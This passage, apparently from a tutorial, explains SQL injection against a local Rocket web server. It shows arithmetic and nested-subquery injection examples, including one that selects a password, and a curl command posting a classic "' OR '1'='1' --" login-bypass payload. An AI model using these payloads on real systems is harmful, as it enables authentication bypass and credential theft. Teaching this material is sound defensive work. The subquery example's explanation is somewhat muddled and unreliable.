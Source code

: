 Now, the attacker wants to inject additional queries carefully while ensuring the overall query remains syntactically valid. The following is an example of how they might utilize the **splitting and balancing** technique:

```sql
-- Original Query
SELECT username FROM users WHERE id = 1

-- Functionally Identical Query (Different Appearance)
SELECT username FROM users WHERE id = 2-1
```

In this example, the second query appears different due to the arithmetic operation (`2-1`), but it is functionally identical to the original query. The attacker has injected their manipulation by maintaining the balance of parentheses and quotes. This ensures that the injected query, though seemingly different, aligns with the expected SQL syntax, thereby allowing the attacker to introduce additional queries without triggering syntax errors.

Now, the magic happens when the attacker exploits this technique to introduce more complexity:

```sql
-- Original Query
SELECT username FROM users WHERE id = 1

-- Functionally Identical Query with a Nested Sub-Query (Disguised)
SELECT username FROM users WHERE id = 1 + (SELECT password FROM users WHERE user_id = 1)
```

Here, the appearance of the query hides the true nature of the injected query. The attacker can now insert nested sub-queries between parentheses, orchestrating a series of operations while keeping the obvious appearance consistent with legitimate SQL syntax.

### 5. SQL Injection Through cURL

In the previous section, we have explored sql injection using forms. However, it's often more convenient to utilize a command-line tool for automation. [**cURL**](https://curl.se/) is a widely-known command-line utility for sending data over various network protocols, including HTTP and HTTPS. Using cURL, we can send a form from the command line rather than a web page. Consider the following example:

```sh
$ curl -X POST \
       -H "Content-Type: application/x-www-form-urlencoded" \
       -d "username=admin' OR '1'='1' --&password=your_password" \
       http://127.0.0.1:8000/login
```

This command successfully retrieves records from the database, illustrating the potential impact of SQL injection attacks when exploiting vulnerabilities in user input handling.


```sh
+----------------------+                 +------------------------+
|                      |                 |                        |
|     User (cURL)      |                 |   Web Server (Rocket)  |
|                      |                 |                        |
+----------------------+                 +------------------------+
           |                                          |
           |                                          |
           V                                          |
+----------------------+                              |
|                      |                              |
|        Input         |                              |
|                      |                              |
+----------------------+                              |
           |                                          |
           |                             +-------------------------+
           |                             |   Handling User Input   |
           |                             |   and Constructing SQL  |
```